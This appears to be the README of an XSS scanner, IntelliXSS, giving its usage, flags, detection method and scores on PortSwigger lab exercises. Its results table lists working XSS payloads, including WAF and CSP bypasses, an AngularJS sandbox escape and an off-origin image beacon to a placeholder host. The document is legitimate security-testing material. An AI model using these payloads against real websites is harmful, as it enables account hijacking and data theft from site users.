


# IntelliXSS

[](requirements.txt)
[](#tests)
[](#accuracy)
[](LICENSE)

XSS scanner built around one rule: a finding is only as strong as the evidence
behind it. The scanner measures what the target does to a payload - which
characters survive, where the reflection lands, which filter rewrites it - and
derives the next payload from that measurement instead of spraying a generic
list.

[Install](#install) &bull; [Usage](#quick-start) &bull; [How it works](#how-a-scan-proceeds)
&bull; [Accuracy](#accuracy) &bull; [Architecture](#architecture)

## Install

```bash
pip install -r requirements.txt
playwright install chromium      # required for browser confirmation
```

## Quick start

```bash
# Path-scoped scan
python intellixss.py -u https://target/app/page?id=1

# Whole site, deep plugins, both reports
python intellixss.py -u https://target/ --deep -w 6 -r 6 -o report.json --html report.html

# Machine-readable output on stdout
python intellixss.py -u https://target/ --json > report.json

# Authenticated
python intellixss.py -u https://app/ --cookie 'session=abc'
python intellixss.py -u https://app/ --bearer eyJ...
python intellixss.py -u https://app/ --basic user:pass
python intellixss.py -u https://app/ --login-url /login --username u --password p
python intellixss.py -u https://app/ --header 'X-Api-Key: secret'
```

## How a scan proceeds

```
discover     path-scoped targets: query parameters, form fields, fragments,
             JSON bodies, upload forms
analyse      HTML5 state machine locates the reflection; filters, WAF and CSP
             are classified from headers and body
probe        one request per character of interest: survives, encoded, or
             stripped
generate     payload families ranked by what actually survived
confirm      Playwright loads the page; execution is credited only when the
             payload's own marker comes back
escalate     on a filtered context: allowlist learning, animated attributes,
             encoding depth, DOM flow analysis, Angular compilation
report       console, JSON, HTML - all scored from the same CVSS table
```

## Flags

| Flag | Meaning |
|------|---------|
| `-u` / `-l` | Target URL / file of URLs, one per line |
| `-o` / `--html` | JSON report path / HTML report path |
| `--json` | Serialised result on stdout and nothing else |
| `-w` / `-r` | Workers (default 4) / requests per second (default 4) |
| `--timeout` / `--retries` | Per-request timeout / transient retries |
| `--max-payloads` | Payloads per parameter per stage (default 25) |
| `--no-adaptive` | Do not back off on 429/503 |
| `--browser` / `--no-browser` | Enable / skip Playwright confirmation (default on) |
| `--max-confirm` | Browser navigations per host (default 12) |
| `--deep` | Also run header, redirect, JSON, GraphQL and upload plugins |
| `-a` / `--aggressive` | Keep going after a hit: all payloads, all parameters |
| `--guess-params` | Also try conventional parameter names the page never links to |
| `-v` / `--verbose` | Character survival and per-technique decisions |
| `-s` / `--silent` | Findings only |
| `--version` | Print the version |

Exit codes: `0` no findings, `1` findings, `2` the scan could not run. Treat
`2` as a failure in CI, never as a clean result.

## Verification states

Every finding carries `verified_by`, so a result is never stronger than its
evidence:

| State | Meaning |
|-------|---------|
| `browser` | The payload ran in headless Chromium (reported as `CONFIRMED`) |
| `reflection` | Live markup reached the response; execution not observed |
| `static` | Source-to-sink or compiler analysis only (DOM / Angular) |

`browser_confirmed` is `True` only when the payload's unique `ixm...` marker
came back from an off-origin request or from `console.log`. A dialog that fires
without the marker is still reported, at lower confidence (`0.85` vs `0.97`),
because the page may have raised it itself.

An encoded character is not usable syntax. If the target turns `<` into
`&lt;`, families that need a tag are dropped rather than attempted.

## What it detects

- **Reflected** in HTML text, quoted and unquoted attributes, comments,
  `<title>`, script strings, inline handlers, and inside `<script>` blocks.
- **DOM**, where a *source* demonstrably reaches a *sink*. Taint is propagated
  to a fixed point, so a source that never reaches a sink is not reported.
  Sinks include `innerHTML`, `eval`, `document.write`, `insertAdjacentHTML`,
  `script.src`, `form.action`, `iframe.src` and `location` assignment; the
  payload is chosen per sink family.
- **Browser-owned sources** (`document.referrer`, `window.name`, cookies) are
  seeded before the document parses, so the finding is proven or not.
- **Stored**, server-side and client-side (form to render), including flows
  that need login first.
- **AngularJS template injection** when an `ng-app` scope loads a compiler.
  A document whose expressions evaluate but whose scope value is a string can
  be compile-only; the scanner detects this from source shape and says so.
- **Deep plugins** (`--deep`): header reflection, open redirect to XSS, JSON
  bodies, GraphQL, and upload forms.

Error pages are scanned. A 4xx/5xx response that reflects a live payload is
exploitable and is reported; the same status with no effective payload is
reported as a block diagnosis instead.

## Scoring

CVSS v3.1 base score from a table keyed by
`(vulnerability type, browser confirmed)` - see
`intellixss/models.py::_CVSS_TABLE`. Confirmation is the only thing that moves a
finding to the stronger row, which is why it is never set optimistically.

## Accuracy

Measured against the 30 PortSwigger Web Security Academy XSS labs, with no
per-lab tuning and no per-lab flags: **29 confirmed, 1 static-only, 0 missed.**

A lab counts as `CONFIRMED` only when headless Chromium ran the payload and the
payload's own unique `ixm...` marker came back. A `CLEAN` row on a lab that has
a known exploit would be a false negative and is recorded as a defect, so the
score cannot be raised by reporting everything as vulnerable.





Both images come from a real run: `docs/console.png` is the scanner's own
output, `docs/report.png` the report it wrote. Regenerate with
`python _shots.py`.

### Per-lab results

| # | Lab | Difficulty | Verdict | Parameter | Context | Payload that fired |
|---|-----|-----------|---------|-----------|---------|--------------------|
| 1 | `reflected-html` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `<script>alert('ixm055cc2ce')</script>` |
| 2 | `stored-html` | APPRENTICE | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 3 | `dom-document.write` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `x"%09onload%3D"alert('ixm06a943c5')"%09x="` |
| 4 | `dom-innerhtml` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `</select><svg%20onload%3Dalert('ixm06a943c5')>` |
| 5 | `dom-jquery-href` | APPRENTICE | **CONFIRMED** | `returnPath` | `html_text` | `javascript:alert('ixmf5d7a03f')` |
| 6 | `dom-jquery-selector` | APPRENTICE | **CONFIRMED** | `#fragment` | `url_fragment` | `x:has()` |
| 7 | `attr-double` | APPRENTICE | **CONFIRMED** | `search` | `html_attr_double` | `"onfocus=alert('ixm35fc4a56') autofocus x="` |
| 8 | `href-attr` | APPRENTICE | **CONFIRMED** | `website` | `html_attr_href` | `javascript:alert('ixmcc71ea77')` |
| 9 | `js-string` | APPRENTICE | **CONFIRMED** | `search` | `js_string_single` | `';alert('ixm6f216e5f');//` |
| 10 | `dom-select` | PRACTITIONER | **CONFIRMED** | `storeId` | `html_text` | `</select><svg%20onload%3Dalert('ixme6b2bddc')>` |
| 11 | `angularjs` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `{{constructor.constructor('alert("ixmd11df425")')()}}` |
| 12 | `dom-reflected` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `\"};alert('ixm06a943c5');//` |
| 13 | `dom-stored` | PRACTITIONER | **CONFIRMED** | `comment` | `html_text` | `<>` |
| 14 | `waf-tags` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<xss popover onbeforetoggle=alert('ixm7b9b721b')>` |
| 15 | `waf-custom-tag` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<xss autofocus onfocus=alert('ixmc3b67ffc') tabindex=1>` |
| 16 | `svg-allowlist` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<svg><animatetransform onbegin=alert('ixm8fad9987')></svg>` |
| 17 | `canonical-link` | PRACTITIONER | **CONFIRMED** | `search` | `html_attr_href` | `'accesskey='x'onclick=alert(`ixmfbd1233d`)` |
| 18 | `js-sq-escaped` | PRACTITIONER | **CONFIRMED** | `search` | `js_string_single` | `</script>` |
| 19 | `js-sq-escaped2` | PRACTITIONER | **CONFIRMED** | `search` | `js_string_single` | `\';x=new Image;x.src=`//ixm13d2bab5.ixm.example/x`//` |
| 20 | `onclick-escaped` | PRACTITIONER | **CONFIRMED** | `website` | `js_in_attr` | `http://x&apos;);alert(`ixm9f7d664a`);//` |
| 21 | `template-literal` | PRACTITIONER | **CONFIRMED** | `search` | `js_template` | `${alert(String.fromCharCode(105,120,109,49,48,53,50,102,5…` |
| 22 | `stored-cookie` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 23 | `stored-password` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 24 | `stored-csrf` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 25 | `angular-sandbox` | EXPERT | **static-only** | `search` | `html_text` | `{{$eval('alert("ixmdb1d6f29")')}}` |
| 26 | `angular-csp` | EXPERT | **CONFIRMED** | `content` | `html_text` | `` |
| 27 | `waf-events-href` | EXPERT | **CONFIRMED** | `search` | `html_text` | `<svg><a><animate attributeName=href values=javascript:ale…` |
| 28 | `js-url-blocked` | EXPERT | **CONFIRMED** | `postId` | `js_string_single` | `1&'},x=x=%3E{throw/**/onerror=alert,%27ixm73f10df5%27},to…` |
| 29 | `csp-dangling` | EXPERT | **CONFIRMED** | `email` | `html_attr_double` | `"><svg/onload=alert('ixmec2983db')>` |
| 30 | `csp-bypass` | EXPERT | **CONFIRMED** | `search` | `html_text` | `<svg/onload=alert('ixmfaf31068')>` |

Lab 25 is the only row not confirmed in a browser. The Angular sandbox defeats
the expression by construction, source analysis proves the source reaches the
sink, and the finding is reported as `static-only` rather than dressed up as
proof.

The full payload, the page it fired on and the request that reproduces it are
in `benchmark/results.json`.

## Architecture

```
intellixss/
  analysis/   context (HTML5 state machine), filters, reflection, charprobe,
              static_dom (taint flow, Angular, source seeds), angular
  payloads/   generator (banks, ranking), mutations, WAF profiles
  encode.py   layered encoders (percent, entity, unicode, backslash)
  discovery/  path-scoped targets
  http/       aiohttp client (JSON, multipart, auth, throttling)
  verify/     reflection check, Playwright confirmer (deadline-bounded)
  plugins/    stored, header, redirect, json, graphql, upload
  report/     HTML report
  auth.py     cookies, bearer, basic, form login
  scanner/    orchestrator
  cli.py      console rendering, JSON, exit codes
benchmark/    lab results and the proof pages
tests/        pytest suite
```

Developer notes for extending the scanner live in `.agent/skills/`:
adding a plugin, adding a payload family, browser confirmation, scoring and
reporting, and filter evasion.

## Tests

```bash
python -m pytest -q
```

## License

MIT - see [LICENSE](LICENSE). Use it, fork it, ship it inside a commercial
product, modify it without publishing the changes. No warranty.

Authorized testing only: run it against systems you own or have written
permission to test.
